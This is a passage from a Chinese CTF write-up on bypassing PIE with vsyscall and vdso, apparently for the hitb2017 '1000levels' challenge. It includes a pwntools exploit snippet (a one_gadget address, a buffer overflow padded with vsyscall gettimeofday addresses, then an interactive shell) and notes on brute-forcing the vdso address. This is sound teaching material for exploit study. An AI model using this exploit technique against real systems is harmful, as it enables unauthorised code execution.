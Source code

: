 ```

io.sendline(str(libc_base+one_gadget_base))
for i in range(999):
    log.info(i)
    answer()

io.recvuntil('Question: ')

io.send('a'*0x38 + p64(vsyscall_gettimeofday)*3) 
io.interactive()
```

vdso好处是其中的指令可以任意执行，不需要从入口开始，坏处是它的地址是随机化的，如果要利用它，就需要爆破它的地址，在64位下需要爆破的位数很多，但是在32位下需要爆破的字节数就很少。



## 个人感悟：

在之前比赛中遇到开启PIE的程序时，脑子里没有一些特定的技术手法来绕过，最起码学了这个之后，在以后遇到类似问题的时候能想到用这些方法绕过。

希望我在安全这条路上越走越远！本文如有不妥之处，敬请斧正。



## 参考文献：

[hitb2017 – 1000levels [Study]](https://1ce0ear.github.io/2017/12/22/vsyscalls/)
